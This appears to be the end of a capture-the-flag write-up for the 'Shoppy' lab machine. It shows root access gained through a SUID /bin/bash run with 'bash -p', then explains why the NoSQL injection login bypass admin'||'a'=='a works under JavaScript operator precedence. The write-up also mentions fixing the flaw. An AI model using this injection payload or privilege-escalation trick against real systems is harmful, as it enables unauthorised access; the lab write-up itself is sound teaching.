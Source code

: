 

    deploy@shoppy:~$ ls -l /bin/bash
    -rwsrwxrwx 1 root root 1234376 Mar 27  2022 /bin/bash



Running it (with `-p` to not drop privs) gives a shell with the
effective id of root:



    deploy@shoppy:~$ bash -p
    bash-5.1# id
    uid=1001(deploy) gid=1001(deploy) euid=0(root) groups=1001(deploy),998(docker)



## Beyond Root - NoSQL Injection

In [this video](https://www.youtube.com/watch?v=EfLW51f6KFo), I'll use
VSCode to connect to Shoppy, and analyze the NodeJS code for the website
to better understand the NoSQL injections. Then I'll fix the
vulnerabilities and show that they no longer are exploitable:


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=EfLW51f6KFo){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

One thing I didn't go into in the video was how the boolean logic works
for this injection. With the injection `admin'||'a'=='a`, the query
becomes:



    this.username == 'admin' || 'a'=='a' && this.password == '0xdf'



That is:



    true || true && false



How does that evaluate? I can check it in a browser:

![](/img/image-20230113094927242.png)

But why does it work? The [Operator
Precedence](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Operator_Precedence#table)
for JavaScript groups operators into groups numbered 1-18, which are
processed from 18 down to 1. Logical AND (`&&`) is group 4, and Logical
OR (`||`) is in group 3:

![](/img/image-20230113095139932.png)

So for the user admin, the query can be simplified a bit on each line:



    this.username == 'admin' || 'a'=='a' && this.password == '0xdf'
    true || true && false
    true || false
    true







